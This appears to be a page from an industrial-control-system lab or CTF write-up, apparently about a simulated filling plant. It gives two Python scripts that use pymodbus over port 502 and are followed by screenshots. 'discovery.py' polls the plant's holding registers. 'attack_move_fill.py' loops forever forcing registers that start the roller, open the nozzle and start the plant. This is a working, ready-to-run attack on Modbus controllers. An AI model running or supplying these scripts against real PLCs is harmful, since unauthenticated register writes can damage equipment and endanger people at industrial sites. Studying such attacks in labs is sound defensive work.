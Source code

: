<h4><em>attack_move_fill.py</em></h4>

```bash
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()
while True:
  client.write_register(3, 1)  # Start the roller
  client.write_register(4, 1)  # Open the nozzle
  client.write_register(16, 1) # Start the plant
```

<h4><em>discovery.py</em></h4>

```bash
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()
while True:
    rr = client.read_holding_registers(1, 16)
    print(rr.registers)
    time.sleep(1)
```





<h1>Complete</h1>




<img width="1895" height="895" alt="image" src="https://github.com/user-attachments/assets/6a41b487-b674-454d-968b-40996344e246" />

<img width="1899" height="903" alt="image" src="https://github.com/user-attachments/assets/457a7185-dbd1-4265-a1aa-64079f39326d" />



<img width="329" height="88" alt="image" src="https://github.com/user-attachments/assets/4e39c199-886d-465a-b708-6826a4135298" />


<img width="1903" height="893" alt="image" src="https://github.com/user-attachments/assets/79e6f2f7-6003-43e4-b1c1-51267222e33f" />
